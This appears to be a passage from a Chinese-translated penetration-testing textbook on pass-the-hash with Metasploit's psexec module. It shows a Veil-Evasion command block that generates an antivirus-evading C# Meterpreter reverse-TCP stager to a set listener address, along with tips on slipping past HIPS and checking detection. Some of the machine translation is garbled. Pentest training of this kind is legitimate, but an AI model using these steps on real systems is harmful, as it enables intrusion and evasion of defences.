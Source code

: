 因此，我们将模块配置为使用密码`batman`，并针对系统上的本地管理员帐户。这可以更改，但通常使用默认值。由于是本地管理员，所以域设置为`WORKGROUP`。下图显示了模块的配置：

![Testing for the synchronization of account credentials](../Images/image00332.jpeg)

### 注

在运行这些命令之前，请确保使用 spool 将结果输出到日志文件，以便您可以返回并查看结果。

正如您在下图中所看到的，该账户提供了登录系统的详细信息。这意味着有与返回的帐户名相关的已登录用户，并且本地管理员帐户将在该系统上工作。这意味着通过**通过散列攻击**（**PtH**，该系统已经成熟，可以进行妥协。

![Testing for the synchronization of account credentials](../Images/image00333.jpeg)

### 注

`psexec`模块允许您通过提取的**局域网管理器（LM）**：**新技术 LM（NTLM）**散列和用户名组合，或者仅通过用户名密码对进行访问。

首先，我们设置了一个自定义的 multi/handler 来捕获我们在下面的示例中由 Veil 生成的自定义漏洞。请记住，我使用`443`作为本地端口，因为它绕过了大多数 HIPS，并且本地主机将根据您的主机而改变。

![Testing for the synchronization of account credentials](../Images/image00334.jpeg)

现在，我们需要使用 Veil 生成自定义有效载荷，以便与`psexec`模块一起使用。您可以导航到`Veil-Evasion`安装目录并使用`python Veil-Evasion.py`运行它。Veil 有大量有效载荷，可以通过各种模糊或保护机制生成，以查看您想要使用的特定有效载荷，并执行`list`命令。您可以通过键入有效负载的编号或名称来选择有效负载。例如，运行以下命令以生成不使用 shell 代码的 C Sharp stager，请记住，这需要在目标框上使用特定版本的.NET。

```
use cs/meterpreter/rev_tcp
set LPORT 443
set LHOST 192.168.195.160
set use_arya Y
generate

```

### 注

一个典型的有效载荷有两个组成部分，阶段器和阶段。stager 在攻击者和受害者之间建立网络连接。通常使用本机系统语言的有效负载可能会更为缓慢。第二部分是 stage，它是 stager 下载的组件。这些可以包括你的计量器之类的东西。如果两个项目合并，则称为单个项目；想想看，当你创建恶意的**通用串行总线**（**USB**驱动器时，这些驱动器通常是单驱动器。

输出将是一个可执行文件，它将生成一个加密的反向**超文本传输协议安全（HTTPS**MeterMeter）。

![Testing for the synchronization of account credentials](../Images/image00335.jpeg)

可使用脚本`checkvt`测试有效载荷，该脚本可安全验证大多数 HIPS 解决方案是否会拾取有效载荷。它这样做时没有将其上传到 Virus Total，反过来也不会将有效负载添加到数据库中，而许多 HIPS 提供商都从数据库中获取有效负载。相反，它将有效负载的哈希值与数据库中已有的哈希值进行比较。

![Testing for the synchronization of account credentials](../Images/image00336.jpeg)

现在，我们可以设置模块`psexec`以引用自定义负载执行。

![Testing for the synchronization of account credentials](../Images/image00337.jpeg)

更新`psexec`模块，通过设置`EXE::Custom`使用`Veil-Evasion`生成的自定义有效载荷，并通过设置`DisablePayloadHandler true`禁用自动有效载荷处理程序，如下图：
